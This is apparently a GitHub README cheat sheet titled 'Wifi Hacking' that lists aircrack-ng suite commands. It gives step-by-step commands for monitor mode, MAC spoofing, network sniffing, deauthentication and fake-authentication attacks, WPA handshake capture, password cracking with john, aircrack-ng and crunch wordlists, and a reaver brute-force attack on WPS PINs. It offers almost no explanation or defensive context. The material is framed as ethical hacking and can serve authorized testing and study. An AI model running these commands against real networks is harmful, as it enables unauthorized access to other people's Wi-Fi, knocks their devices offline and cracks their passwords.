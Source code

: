 # Wifi Hacking

|Commands|
|--------------|
|[Network Manager Commands](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#network-manager-commands)|
|[Network Adapter Testing Commands](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#network-adapter-testing-commands)|
|[Changing MAC Address](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#changing-mac-address)|
|[Sniff Network](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#sniff-network)|
|[Capture Data](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#capture-data)|
|[Analyse Data](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#analyse-data)|
|[Associate with Router](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#associate-with-router)|
|[DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#de-authentication-attack)|
|[Fake-Authentication Attack](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#fake-authentication-attack)|
|[WPA Handshake Capture](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#wpa-handshake-capture)|
|[Password Cracking Using `John`](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-using-john)|
|[Password Cracking using `wordlist`](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-using-wordlist)|
|[Create word list](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#create-word-list)|
|[Password Cracking Without `Word list`](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-without-word-list)|
---

# Network Manager commands

> ### Kill Network Manager
```bash
airmon-ng check kill
```

> ### Enable Network Manager

```bash
service NetworkManager start
```

> ### Restart Network Manager
```bash
systemctl restart NetworkManager
```

> ### Check Status of Network Manager
```bash
systemctl status NetworkManager
```
---

# Network Adapter Testing Commands

> ### Enable Monitor Mode
```bash
airmon-ng start wlan0
```

> ### Disable Monitor Mode
```bash
airmon-ng stop wlan0
```

> ### Packet Injection test
```bash
aireplay-ng --test wlan0
```

> ### Access Point Creation test

you can put any fake MAC Address like this `00:01:02:03:04:05`
```bash
airbase-ng -a 00:01:02:03:04:05 --essid "<AP_name>" -c {channel_no.} wlan0
```

---

# Changing MAC Address
```bash
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```
# Sniff Network 

> ### Sniff Network around `2.4 GHz`
```bash
airodump-ng wlan0
```

> ### Sniff Network Both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band a wlan0
```

> ### Capture data both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band abg wlan0
```
---
# Capture Data
```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} --write (file_name_without_extension) wlan0
```
# Analyse Data
```bash
wireshark
```
---

# Associate with router
```bash
aireplay-ng --fakeauth 0 -a {router_MAC_add} -h {Your_NIC_MAC_add} waln1
```

# DE-Authentication Attack
```bash
aireplay-ng --deauth {no_of_deauth_packets} -a {router_MAC_add} -c {target_MAC_add} wlan0
```
if it`s fails then, target router on specfic channel

```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} wlan0
```

# Fake-Authentication Attack
```bash
aireplay-ng --fakeauth {delay} -a {router_MAC_add} -h {your_NIC_MAC} wlan0
```

# WPA Handshake Capture
```bash
airodump-ng --bssid {router_MAc_add} --channel {channel_no.} --write {file_name_without_extn} wlan0
```

# Password Cracking Using `John`

> ### `.cap` to `.hccap`
```bash
aircrack-ng {.cap} -J {extension_name_not_required}
```
> ### `.hccap` to `.txt`
```bash
hccap2john {.hccap} > {.txt}
```
> ### Crack Password
```bash
john {.txt}
```

---

# Password Cracking using `wordlist`
```bash
aircrack-ng {.cap} -w {Wordlist.txt}
```
---
# create word list
```sh
man crunch
crunch 6 8 {key length} abc12 {char used} -o test.txt
```
> ## Create word list using pattern
```sh
crunch {key_length Ex: 6 8} {char_used Ex: abc12} -o {.txt} -t {patter Ex: a@@@@b}
```

---
# Password Cracking `Without Word list`

> ## Scan WPS Enable Network Around us

```sh
wash --interface wlan0
```

>[!WARNING]\
>Current version of reaver have some bugs, you can use old version

> ## Brute force the pin attack
```sh
reaver --bssid {router_MAC_add} --channel {channel_no.} --interface wlan0 -vvv --no-associate 
```

# =}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)

